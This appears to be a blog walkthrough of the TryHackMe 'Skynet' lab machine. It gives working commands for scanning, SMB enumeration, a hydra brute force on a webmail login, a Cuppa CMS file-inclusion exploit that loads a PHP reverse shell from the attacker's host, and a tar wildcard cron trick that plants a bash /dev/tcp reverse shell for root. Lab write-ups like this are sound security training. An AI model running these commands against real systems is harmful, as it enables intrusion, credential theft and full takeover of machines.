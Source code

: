 ```yaml
---
slug: skynet-walkthrough
title: TryHackMe - Skynet - Walkthrough
authors: bw
tags: [learning, skynet, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Skynet][skynet]. Let’s get started!

# Deploy and Compromise the machine
Since we don’t know anything about this machine, let’s start with an nmap scan! The command I used was: `nmap -sC -sV -oN nmap.txt <machine_ip>`

![s1](/img/thm/skynet/s1.webp)

We can see that we have `ssh`, `http`, `pop3`, `smb`, and `imap` open. We can immediately eliminate `ssh` as an attack vector, so we need to focus on the others. First answer is asking for a password to an email, so let’s start by looking at the website.

![s2](/img/thm/skynet/s2.webp)

We don’t see much here. Let’s run a gobuster scan in order to gather some directories. I used this command: `gobuster dir -u http://10.10.8.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

gobuster finds a few directories, however we aren’t able to access them. We get a **Forbidden** message. I will let gobuster continue running in the background, but let’s checkout the smb avenue.

If we use the `smbclient` we see the following (Hit **Enter** when prompted for a password):

![s3](/img/thm/skynet/s3.png)

We definitely see some interesting share’s here. We have a possible username: milesdyson. Lets checkout that share: `smbclient \\\\10.10.8.13\\milesdyson` 

Unfortunately, we don’t have access. Instead, let’s try the `anonymous` share.

We are in! We see `attention.txt` and `logs`. Run: `get attention.txt` to download the file.

![s4](/img/thm/skynet/s4.png)

Hmm…that’s interesting! Maybe the logs caught some people’s passwords? Let’s see!

`cd` into the logs directory, and we see 3 files. The only one that has any date (due to the size) is `logs1.txt`. Let’s download that and take a look!

![s5](/img/thm/skynet/s5.png)

This looks very promising!! This looks like it could be some passwords? We could use this as a wordlist in `hydra` if we can find a login page anywhere. Let’s check back with `gobuster`.

We see one new entry `/squirrelmail`. Let’s see if we can reach this page!

![s6](/img/thm/skynet/s6.webp)

Success!! Now we “think” we already know a username: `milesdyson`, but we don’t know his password. We could try each entry in that list one-by-one, but that might take some time. Let’s try to use hydra against the login. Format your `hydra` like the following:

```bash
hydra -l milesdyson -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'
```

If you are unsure as to what those mean, or how to find them, read this article on the topic: here. Our command will be the following:

```bash
hydra -l milesdyson -P log1.txt 10.10.8.13 http-post-form '/squirrelmail/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![s7](/img/thm/skynet/s7.webp)

Perfect! Our first answer! Let’s login to the mail! If we look at the emails we find a **Samba Password reset** email.

![s8](/img/thm/skynet/s8.png)

After looking around more, there doesn’t seem to be anything else. Let’s login to the `milesdyson` samba share using that password!

`smbclient -U milesdyson \\\\10.10.8.13\\milesdyson`

When we `ls` the share, we see a few items in there. One that sticks out to me is the notes directory.

When we look at the notes directory, there are a lot of files in it, but which one is important?? `get important.txt`

![s9](/img/thm/skynet/s9.png)

There is our next answer! Now we can navigate to that directory.

![s10](/img/thm/skynet/s10.webp)

Hmm…not much here. But we did see a mention of `CMS` in the `important.txt` file. Let’s run a gobuster scan against this URL:

`gobuster dir -u http://10.10.8.13/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Eventually, we get back an `/administrator` page. Navigate to that page.

![s11](/img/thm/skynet/s11.webp)

We see it is using **Cuppa CMS**. Let’s see if there are any exploits for this in `searchsploit`.

`searchsploit cuppa`
`cat /usr/share/exploitdb/exploits/php/webapps/25971.txt`

Reading through, we get our third answer. Now let’s use the exploit!

First, we need to know how we can use a file in order to get a shell on a machine. In this case, we know this is using .php. Let’s use `php-reverse-shell.php`! This can be found [here][php-rev-shell]. Make sure to change the parameters to your machine and IP you will use to listen for the reverse shell!

![s12](/img/thm/skynet/s12.png)

Now we need to start a http server on our machine in the folder where the reverse shell file is located: `python3 -m http.server 80`

Start a netcat listener on the specified port: `nc -nvlp 1234`

Then curl or navigate to the following url:

`http://10.10.8.13/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<thm_tun0_ip>:80/php-reverse-shell.php`

When you navigate to your terminal with the netcat listener, you should see a shell! Let’s look for the user flag.

![s13](/img/thm/skynet/s13.png)

Now we need to escalate our privileges for the root flag! Before we do anything else, let’s get into a better shell using python:

`python -c 'import pty; pty.spawn("/bin/bash")'`

Let’s see if we have any sudo permissions: `sudo -l`, nope! Maybe there are `cron` jobs running as root?

`cat /etc/crontab`

We see there is a `backup.sh` that runs every minute! There’s our target. Let’see what’s in there: `cat /home/milesdyson/backups/backup.sh`

![s14](/img/thm/skynet/s14.png)

We need to use this cron job to gain a shell. I wonder if there is a way to execute a shell from tar? Let’s check out [GTFObins][gtfo]. We can search for the `tar` command, and we see a few options. Let’s try the first one:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can use this to get a shell, but we need to create some things first:

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<thm_tun0_ip>/1235 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Now we can open up a `netcat` listener to get the reverse shell: `nc -nvlp 1235`
**NOTE:** This could take up to a minute for the shell to come through

We have a root shell! Let’s find our root flag!

![s15](/img/thm/skynet/s15.png)

# References
[TryHackMe][thm] | [Skynet Room][skynet] | Hydra Brute-Force Login | [php-reverse-shell.php][php-rev-shell] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[skynet]: https://tryhackme.com/why-subscribe?roomCode=skynet
[php-rev-shell]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io
